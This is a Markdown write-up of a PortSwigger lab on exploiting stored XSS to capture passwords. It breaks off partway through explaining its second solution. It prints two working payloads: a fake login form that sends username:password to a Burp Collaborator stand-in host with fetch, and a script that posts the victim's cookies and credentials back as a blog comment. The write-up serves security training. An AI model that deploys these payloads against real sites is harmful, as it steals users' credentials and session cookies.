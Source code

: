 ```yaml
---
share_link: https://share.note.sx/068x94fw#d3mX3YNal2X9r7Sf4dgIgv2fHW9akXZfFGaTZc2qv/E
share_updated: 2025-05-22T23:53:41+03:00
---
```

## �� Lab Summary

**🗓️ Solution Date:** 22 / 5 / 2025  
**🔗 Lab Link:** [Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)  
**🧨 Vulnerability Type:** Blind XSS

---

## 🧠 Lab Concept

- The blog comments contain a **Stored XSS vulnerability**.
    
- When a comment is posted, it is automatically displayed on a page visited by the victim user.
    
- Requirements:  
    ✅ Exploit the vulnerability to make the victim send login credentials to **Burp Collaborator server**.  
    ✅ Then, use these credentials to log in as the victim.
    

---

## 🛠️ Required Tools

- Burp Suite Professional
- Burp Collaborator (used as exfiltration server)

---

## 🚀 Solution Steps

### 1. Setting up Burp Collaborator

- Open **Burp Suite Professional**.
    
- Go to the **Collaborator client** tab.
    
- Click **Copy to clipboard** to copy your domain (example: `abc123.burpcollaborator.net`).
    

---

## 💣 Detailed Explanation of the Used Payload

### 🔹 Complete Payload:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
  method:'POST',
  mode:'no-cors',
  body:username.value+':'+this.value
});">
```

---

### 🧩 Payload Analysis Element by Element

#### 1.

```html
<input name=username id=username>
```

- This is a text input element for the **username**.
    
- Added `id="username"` so it can be accessed later through JavaScript using `username.value`.
    

#### 2.

```html
<input type=password name=password onchange="...">
```

- This is a password input element.
    
- When the value changes (when the user enters a password), the code in the `onchange` event is executed.
    

---

### ⚙️ What Happens Inside `onchange`?

```javascript
if(this.value.length)
```

- Checks if a value has been entered in the password field.
    

```javascript
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
  method: 'POST',
  mode: 'no-cors',
  body: username.value + ':' + this.value
});
```

- **fetch**: Sends an HTTP request to the Burp Collaborator server.
    
- `method: 'POST'`: The request uses POST to send data.
    
- `mode: 'no-cors'`: This makes the request work without CORS (Cross-Origin Restrictions) issues.
    
- `body`: Sends a text string containing `username:password`.
    

Example of sent data:

```
victimUser:MyPassword123
```

---

### 🎯 Final Goal of this Script:

- Steal the user's (victim's) login credentials.
    
- Send the data to Burp Collaborator.
    
- The attacker can capture the data from Burp Suite and use it to log into the victim's account.

---

### 3. Waiting for Victim Interaction

- Go back to **Collaborator client**.
    
- Click **Poll now**.
    
- When an HTTP interaction appears, you'll find the credentials in the **Request body** section like this:
    

![Pasted image](../images/Pasted%20image%2020250522235341.png)

---

### 4. Logging in as Victim

- Go to the site's login page.
    
- Enter the obtained username and password.
    
- If login is successful, the lab is solved ✅
    ![Pasted image](../images/Pasted%20image%2020250522235341.png)

---

## 💡 Alternative Solution
```html
  <input type="text" name="username" id="username" placeholder="Username">
  <input type="password" name="password" id="password" placeholder="Password">

  <script>
    window.addEventListener('DOMContentLoaded', function() {
      document.getElementById('password').addEventListener('change', function() {
        if (this.value) {
          
          // Extract CSRF token value if it exists
          var tokenElem = document.getElementsByName('csrf')[0];
          var token = tokenElem ? tokenElem.value : '';

          // Create form data
          var data = new FormData();
          data.append('csrf', token);
          data.append('postId', 8);

          // Combine cookie info, username, and password in a comment
          data.append('comment', 
            'cookie: ' + document.cookie + '\n' +
            'username: ' + document.getElementById('username').value + '\n' +
            'pass: ' + this.value
          );

          // Add additional complementary information
          data.append('name', 'test name');
          data.append('email', 'test@gmail.com');
          data.append('website', 'http://test.com');

          // Send data to server
          fetch('post/comment', {
            method: 'POST',
            mode: 'no-cors',
            body: data,
          });
        }
      });
    });
  </script>

```

#### ✅ **1. HTML Elements:**

```html
<input type="text" name="username" id="username">
<input type="password" name="password" id="password">
```

- `username`: Text field where the user enters their username.
    
- `password`: Secret field where the user enters their password.
    

---

#### ✅ **2. Script Start:**

```js
window.addEventListener('DOMContentLoaded', function() {
```

- This code is executed **after the page finishes loading** all elements (HTML) completely.
    

---

#### ✅ **3. Monitoring Password Changes:**

```js
document.getElementById('password').addEventListener('change', function() {
```

- Monitors the password field, and as soon as the user **enters a password and leaves the field** (blur), the code inside is executed.
    

---

#### ✅ **4. Verifying Password is Not Empty:**

```js
if(this.value){
```

- If the user actually entered something in the password, we continue executing the rest of the code.
    

---

#### ✅ **5. Getting CSRF Token Value (if it exists):**

```js
var tokenElem = document.getElementsByName('csrf')[0];
var token = tokenElem ? tokenElem.value : '';
